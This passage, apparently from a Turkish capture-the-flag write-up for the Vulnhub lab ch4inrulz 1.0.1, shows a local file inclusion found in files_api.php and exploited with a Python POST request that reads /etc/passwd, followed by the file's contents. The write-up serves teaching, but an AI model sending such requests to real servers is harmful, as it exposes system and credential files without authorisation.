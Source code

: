 Buradan api sayfasını öğreniyor ve api sayfasına geçiyoruz.

Sayfayı açtığımızda yeni sayfalar için dosya isimleri ile karşılaşıyoruz. Ben sırayla hepsini denedikten sonra sadece `files_api.php` sayfasının bulunduğunu anlıyorum.

files_api sayfasına girdiğimde bana `file` parametresinin girilmediğini söylüyor. Ben de hemen url üzerinden `?file=/etc/passwd` denediğimde beni güzel bir espri ile karşılıyor :)

![ch4inrulz-2](/Vulnhub/resimler/ch4inrulz:-1.0.1/ch4inrulz-2.png)

Bende burada Local File Inclusion açığının bulunduğunu düşünerek [buradaki github sayfasındaki](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tüm yöntemleri denedim. Buradan bir sonuca ulaşamadım.

Uzunca uğraştan ve araştırmadan sonra biraz yardım ile POST metodu kullanmam gerektiğini öğrendim. Bu işlem için python kullandım.

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/etc/passwd"})
>>> print(r.text)

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
```